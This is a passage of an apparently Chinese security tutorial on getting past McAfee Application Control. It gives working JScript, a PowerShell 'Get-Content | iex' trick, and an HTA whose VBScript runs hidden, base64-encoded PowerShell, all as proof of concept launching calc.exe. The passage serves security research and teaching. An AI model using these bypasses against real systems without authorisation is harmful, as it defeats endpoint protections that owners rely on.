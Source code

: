 保存为vbs.hta,执行如图

![p13](http://drops.javaweb.org/uploads/images/3fe0cb187641e1cfda8216b50c2cec0a827135a0.jpg)

### 2.执行jscript

jscript未被McAfee Application Control限制，因此可以被利用

如下代码保存为calc.js

```
var objShell = new ActiveXObject("WScript.shell");
objShell.run('calc.exe');

```

执行成功，如图

![p14](http://drops.javaweb.org/uploads/images/e9e41a93cb4c411344c657f507009aaa7528d046.jpg)

### 3.执行powershell

如果可以执行powershell代码，还担心绕不过McAfee Application Control吗？

当然，默认是肯定无法执行的，如图

![p15](http://drops.javaweb.org/uploads/images/736e0a6422a6074c2438e2f36c38d8508fab22e4.jpg)

**方法1：**

将ps1文件内容保存为script.txt，然后进入Powershell环境执行如下代码：

```
Get-Content script.txt | iex

```

但是如果txt中含有函数，会产生如下错误，需要更改脚本内容，错误如图

![p16](http://drops.javaweb.org/uploads/images/576f9d412a5026bc556392ae79a6c3b5ca0fa2fd.jpg)

**方法2：**

利用hta可以执行vbs，再用vbs执行Powershell

使用如下代码并保存为vbs+ps.hta

```
<HTML> 
<HEAD> 
<script language="VBScript">
    Set WshShell = CreateObject("WScript.Shell")
    Connect="powershell -nop -windows hidden -E YwBhAGwAYwAuAGUAeABlAA=="
    WshShell.Run Connect, 4, true

</script>
<HTA:APPLICATION ID="test"
WINDOWSTATE = "minimize">

</HEAD> 
<BODY> 
</BODY> 
</HTML> 

```
